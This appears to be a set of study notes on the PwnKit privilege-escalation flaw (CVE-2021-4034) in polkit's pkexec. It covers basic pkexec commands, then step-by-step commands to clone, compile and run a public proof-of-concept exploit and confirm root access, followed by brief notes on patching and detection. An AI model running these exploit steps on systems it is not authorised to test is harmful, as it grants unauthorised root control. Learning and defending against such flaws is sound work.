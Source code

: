 
# Run command as root using pkexec
```bash
pkexec -u root id
pkexec -u root /bin/bash # or /bin/sh
```

# Check if a process is authorized for an action
```bash
pkcheck --process <pid> --action-id <action_id> --allow-user-defaults
```

# List available actions
```bash
pkaction
```

# Example of using pkexec to run a command as another user.
```bash
pkexec --user <username> <command>
```

# Clone exploit
```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
```

# Compile exploit
```bash
gcc cve-2021-4034-poc.c -o poc
```

# Run exploit
```bash
./poc
```

# Verify root access
```bash
id
whoami
```





**Key Concepts:**

- **Polkit (PolicyKit):**
    - Authorization service for Linux systems.
    - Controls permissions for user software and system components.
- **pkexec:**
    - A Polkit tool that allows running commands as another user (including root).
    - The vulnerable component.
- **CVE-2021-4034 (PwnKit):**
    - Memory corruption vulnerability in `pkexec`.
    - Allows unprivileged users to gain root privileges.

**Vulnerability and Exploitation:**

- **Vulnerability Details:**
    - The vulnerability is a memory corruption issue.
    - It allows an attacker to manipulate the execution flow of `pkexec`.
- **Exploitation Process:**
    - Download a Proof-of-Concept (PoC) exploit.
    - Compile the exploit.
    - Run the exploit.
    - The exploit grants a root shell.
- **Mitigation:**
    - Update Polkit to a patched version.

**Exploitation Steps (as described):**

1. **Download PoC Exploit:**
    - `git clone https://github.com/arthepsy/CVE-2021-4034.git`
    - `cd CVE-2021-4034`
2. **Compile Exploit:**
    - `gcc cve-2021-4034-poc.c -o poc`
3. **Run Exploit:**
    - `./poc`
4. **Verify Root Access:**
    - `id`

**Important Considerations and Enhancements:**

- **Vulnerability Severity:**
    - PwnKit is a critical vulnerability.
    - It allows trivial privilege escalation.
- **Patching:**
    - Updating Polkit is essential.
- **Exploit Reliability:**
    - The PoC exploit is generally reliable.
- **Detection:**
    - Monitor for unexpected `pkexec` usage.
    - Use intrusion detection systems.
- **Real world examples:** Researching real world polkit exploits will help solidify understanding of the attack vectors.
- **Polkit Rules:** More information about how polkit rules function, and how they can be missconfigured would be useful.
- **Polkit actions:** More information about how polkit actions function would be useful.